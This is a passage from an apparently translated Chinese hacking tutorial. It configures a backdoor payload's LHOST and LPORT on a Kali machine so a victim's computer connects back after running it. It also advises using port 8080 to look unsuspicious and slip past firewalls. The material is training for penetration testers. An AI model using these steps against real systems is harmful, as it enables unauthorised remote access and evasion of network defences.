 使用以下选项，我们将把有效载荷的`IP LHOST`更改为我们正在使用的 Kali 机器的 IP 地址。

要获取我们 Kali 机器的 IP 地址，我们必须运行`ifconfig`。通过右键点击并选择“水平分屏”，然后运行命令。如下所示的截图中，Kali 机器的 IP 地址是`10.0.2.15`，这是我们希望目标计算机在执行后门后连接回来的地址：

![](img/685a1192-04c2-48a1-a75e-6aab054b0bff.png)

要将`LHOST`设置为`10.0.2.15`，请输入`set`命令后跟要更改的选项，如下所示：

```
set LHOST 10.0.2.15
```

现在我们需要更改`LPORT`，将其设置为`8080`。这个端口也被 Web 服务器使用，因此不会显得可疑，且应该仍能绕过防火墙。要设置正确的端口，请输入`set LPORT 8080`命令，如下所示的截图所示：

![](img/1f240c08-5699-4f15-905e-950a1e37ee36.png)
